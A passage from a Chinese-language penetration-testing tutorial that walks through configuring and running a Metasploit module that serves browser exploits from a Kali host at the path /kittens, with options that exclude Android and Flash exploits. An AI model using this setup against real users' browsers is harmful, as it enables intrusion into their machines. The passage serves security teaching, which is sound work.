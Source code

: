     ```
    show options
    ```

    ![](../img/32bcab8d7a8c337f960dc09f540d07a1.png)

4.  我们将 Kali 设为接受连接的主机。

    ```
    set SRVHOST 192.168.56.1
    ```

5.  之后，我们为接受响应的服务器创建目录`/kittens`。

    ```
    set URIPATH /kittens
    ```

6.  这个模块会触发大量利用，包含一些 Android 上的。假设我们的攻击目标是 PC，并不打算依赖于 Adobe Flash 的授权。我们会排除 Android 和 Flash 的利用。

    ```
    set EXCLUDE_PATTERN android|adobe_flash
    ```

7.  我们也可以设置模块的高级选项（使用`show advanced`来查看高级选项的完整列表），来向我们展示每个加载的利用的独立路径，并且更加详细。

    ```
    set ShowExploitList true 
    set VERBOSE true
    ```

    高级选项也允许我们为每个平台（Windows、Unix 和 Android）选择载荷和它的参数，例如 LHOST 和 RPORT。

8.  现在，我们已经为执行利用做好了准备。

    ```
    run
    ```

    ![](../img/6ee3fa884c94cef1b9f542b48a8263b0.png)
